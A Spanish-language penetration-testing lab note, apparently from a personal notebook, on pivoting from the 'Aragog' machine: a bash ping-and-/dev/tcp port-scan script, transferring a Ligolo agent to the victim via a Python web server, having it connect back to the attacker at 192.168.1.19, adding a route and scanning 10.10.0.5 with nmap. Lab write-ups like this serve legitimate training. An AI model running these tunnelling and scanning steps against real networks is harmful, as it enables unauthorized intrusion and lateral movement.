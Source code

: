 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `Ligolo` para hacer la tunelización el agent tiene que ir en la maquina victima y el proxy en la maquina atacante 

El agent lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Deberemos ejecutar el proxy en nuestra maquina atacante con:
`./proxy -selfcert `

Y en la maquina victima el agent con:
`./agent -connect 192.168.1.19:11601 -ignore-cert`

En ligolo seleccionamos la sesión con `session` y le damos al Intro
Ejecutamos el comando `start` para que se inicie el tunelizado hacia la maquina victima [[10.10.0.4 (Aragog)]]

Tendremos que añadir la ruta a nustra maquina atacante para poder tener conexion con ella:
`sudo ip route add 10.10.0.0/24 dev ligolo`

Una vez hallamos conseguido el tunelizado haremos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```






